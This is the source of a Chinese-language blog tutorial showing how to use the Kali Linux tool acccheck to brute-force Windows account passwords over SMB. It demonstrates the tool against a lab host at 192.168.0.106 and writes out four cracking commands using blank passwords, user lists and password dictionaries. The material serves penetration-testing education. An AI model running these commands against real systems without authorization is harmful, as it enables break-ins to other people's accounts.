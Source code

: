 ```yaml
---
layout: post
title: Kali Linux使用acccheck破解Windows用户密码(SMB协议)
---
```


acccheck是设计用来破解使用SMB协议的Windows用户密码的。

> SMB是一种网络通信协议,使用SMB协议可以实现不同类型设备之间数据传递。例如,文件、打印机共享也是基于这个协议。

acccheck就是使用perl封装了smbclient命令；

它使用暴力破解的方式试出Windows用户密码。

******

### 一个简单的例子：

* 打开共享的Windows一台；IP，192.168.0.106：

![acccheck]({{ site.baseurl }}/images/2016/4/Screenshot-20162018.PNG)

* Kali Linux：

![acccheck]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-20 18-34-08.png)

尝试使用Administrator，空密码：

{% highlight shell %}
# acccheck -t 192.168.0.106
{% endhighlight %}

尝试使用Administrator，密码字典：

{% highlight shell %}
# acccheck -t 192.168.0.106 -P password.txt
{% endhighlight %}

尝试使用用户文件，密码字典：

{% highlight shell %}
# acccheck -t 192.168.0.106 -U user.txt -P password.txt
{% endhighlight %}

使用字典破解一个用户：

{% highlight shell %}
# acccheck -t 192.168.0.106 -u tian -P dic.txt
{% endhighlight %}

结果保存在cracked文件中：

![acccheck]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-20 19-07-34.png)
